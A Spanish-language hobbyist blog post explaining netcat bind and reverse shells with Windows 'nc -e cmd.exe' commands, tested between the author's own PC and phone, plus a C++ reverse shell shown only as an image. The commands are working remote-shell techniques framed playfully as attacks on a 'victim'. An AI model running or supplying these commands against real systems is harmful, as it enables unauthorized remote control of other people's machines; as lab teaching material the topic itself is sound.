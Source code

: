 ```yaml
---
title: ¿Me invitas aun café? (NetCat y C++)
date: 2020-05-14
categories: [Pentesting, Herramientas, Reversing]
excerpt: Aprendiendo un poco de nc
tags: [C++, Redes]
---
```


Estaba aburrido como siempre así que pensé no hay ningún blog [(Aparte de este)](/posts/HTML) donde usen esta bonita herramienta llamada Netcat y este otro lenguaje llamado C o C++ para ataques, entonces me dije traigamos algo sencillo para empezar a ver si otros se motivan atraer cosas mas interesantes.

Primero debemos saber que es una shell, según Wikipedia una Shell es «En informática, el shell o intérprete de órdenes o intérprete de comandos es el programa informático que provee una interfaz de usuario para acceder a los servicios del sistema operativo», entonces, ¿Qué es una Shell Directa?

### Shell Directa
----

Una Shell directa es un ataque dónde (nosotros) se conectara a la maquina Victima y tendremos, en este caso sera windows (Mi PC) y la maquina atacante mi celular (Usando Termux), la desventaja de hacerlo de forma directa es que cualquier firewall nos puede impedir esto así que en el proceso probablemente vean algo como esto

![shell1](/assets/img/post/26/shell1.jpg)  

### Windows 10  
----

![shell2](/assets/img/post/26/shell2.jpg)  
  
```batch
nc -l -n -p 4444 -e cmd.exe
```

Comandos:

- `-i:` Pone a netcat en modo escucha. (Listen mode)

- `-n:` Omite las búsquedas de DNS de la maquina

- `-p;` Puerto

- `-e:` Aquí pondremos la shell en nuestro caso CMD, para linux; /bin/bash, bash puede cambiar, por ejemplo, zsh, ya depende de lo que use la victima.

### Mi celular (Desde Termux)

```bash
nc -vv IP 4444
```

**Comandos**

- `-vv` Para tener toda la información detallada

![shell3](/assets/img/post/26/shell3.jpg) 

Pondré el comando dir para ver los archivos dentro de la carpeta Netcat desde mi celular atacante :T 

![shell4](/assets/img/post/26/shell4.jpg)  
![shell5](/assets/img/post/26/shell5.jpg)    

`cd \..\..` para retroceder, como ven puedo hacer cualquier cosa hasta con mas imaginación puedo subir algún archivo divertido. :]

### Shell inverso.
----

Bueno en el otro método como os dije su desventaja es que al tratar de conectarnos la maquina nos bloquea de inmediato y no podemos hacer la conexión remota a la maquina, es por eso que haremos lo contrario, es decir, la maquina victima se conectara a nosotros los atacantes y nosotros solo haremos escucha de nuestra victima, y como no, le damos un café por tal generosidad:

### Mi celular (Desde Termux)

```bash
nc -n -vv -l -p 4444
```

![shell6](/assets/img/post/26/shell6.jpg) 

**comandos**

- `-n` Le decimos que no lea los DNS de nombre sobre la maquina
- `-vv` información detallada.
- `-l` Listen mode
- `-p` Puerto

### Windows
---
```bash
nc -e cmd.exe -n -v 192.168.1.79 4444
```

![shell7](/assets/img/post/26/shell7.jpg)  

Nos conectamos a nosotros... Y.. :]

![shell8](/assets/img/post/26/shell8.jpg)  

Puse un Hola mundo en C++ de ejemplo de que podemos ejecutar cualquier cosa.

Ahora bien, como vemos ni bloqueando todos los puertos o confiarse de firewalls mal configurados no impide deque podamos hacer muchas cosas, esto es un ejemplo practico porque podemos hacer cosas mejores un ejemplo de ello: [hacking con html](/posts/HTML). También podemos hacer uso de lenguajes como C++, Perl, Python, etc. Para crear nuestras shells inversas, pondré un código sencillo en C++ (Hay muchas así hasta mejores, pero aun así aplica para lo que están aprendiendo de manera sencilla y eficaz)

![shell9](/assets/img/post/26/shell9.jpg)

Y lo mismo que en la shell reverse, compilamos g++ shell.cpp -o shell y luego hacemos escucha desde nuestra pc atacante `nc -n -vv -l -p 4444`, ponemos `./shell` en la pc victima y wala.

Espero que les guste este blog como a mi me gusto escribirlo; No existe un lugar para esconderse. A donde vayas todos están conectados